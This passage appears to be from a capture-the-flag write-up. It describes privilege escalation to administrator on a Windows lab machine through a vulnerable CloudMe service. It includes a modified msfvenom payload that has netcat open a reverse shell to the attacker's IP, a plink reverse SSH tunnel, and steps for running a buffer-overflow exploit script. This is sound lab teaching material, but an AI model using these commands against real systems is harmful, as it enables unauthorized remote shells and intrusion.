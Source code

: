 Here is the bunch of steps I had to perform to get the root flag:

- First of all we need to get some binaries onto the machine. Using the previous methods we transfer a plink.exe binary along with another copy of netcat binary renamed as something like nc1.exe (we will use it in future)

- Remember that exploit we downloaded and it has some payload with a msfvenom command above it? Yes that is the payload that we need to send to CLoudMe service. 

<img src="/images/buff/replace.png" />

we will need to change it to the the payload that we want. So to do that we copy the msfvenom command and we the change the CMD flag with the command we want to execute. So replace `CMD=calc.exe` to `CMD='C:\xampp\htdocs\gym\upload\nc1.exe yourIP 2222 -e cmd.exe'` and copy and replace the payload with ours.

- Next is start the ssh service on your system  with `sudo service ssh start`. 
- Now we finally use the final piece of the puzzle i.e plink. We use the command 

`plink.exe -v -x -a -T -C -noagent -ssh -R 8888:127.0.0.1:8888 YourUserName@yourIP`

This will make a ssh connection to your ssh server. I got this command from [here](https://dev.to/cambiph/setting-up-an-ssh-tunnel-using-plink-4om7) with a few modifications such as we replace -L with -R (for remote) and we also change the port number to both 8888 as this the port where our python script is sending the data as well as port where the CLoudMe service is running.

- Oh I forgot but you also need to start another netcat listener on port 2222 because when our msfvenom payload is executed it will send a reverse shell to that port. 

- And all that is left is run the python exploit script and you should see messages in the ssh tunnel about port forwarding and then receive a shell as administrator. (If not then maybe try to run the script again a few times)

